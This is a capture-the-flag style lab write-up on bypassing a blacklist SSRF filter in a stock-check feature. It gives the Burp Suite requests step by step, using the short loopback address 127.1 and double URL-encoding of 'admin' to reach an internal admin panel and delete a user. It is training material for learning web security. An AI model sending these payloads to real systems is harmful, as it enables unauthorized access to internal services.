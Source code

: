 # Lab 3: SSRF with blacklist-based input filter

- Vulnerability feature: stock check
- Goal: change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user carlos

### Analysis
- Open Burp Suite
```html
<!-- Request -->
stockApi=http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1

<!-- Response -->
762
```

```html
<!-- Decode -->
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1

<!-- Request -->
stockApi=http://localhost
<!-- Not work -->

stockApi=http://127.0.0.1
<!-- Still not work -->

stockApi=http://127.1

<!-- Response -->
<a href="/admin">
    Admin panel
</a>
<!-- 127.0.0.1 is localhost but 127.1 is incorrect format of IP address -->
```
```html
<!-- Request -->
stockApi=http//127.1/admin
<!-- Not work we need to encode url-->
```
- `Convert selection` > `URL` > `URL-encode all characters`
```html
<!-- Request -->
stockApi=http://127.1/%25%36%31%64min

<!-- Response -->
<a href="/admin/delete?username=carlos">
    Delete
</a>
``` 
```html
<!-- Request -->
stockApi=http://127.1/%25%36%31%64min/delete?username=carlos
``` 
- Click `Follow redirection`
- Congratulations!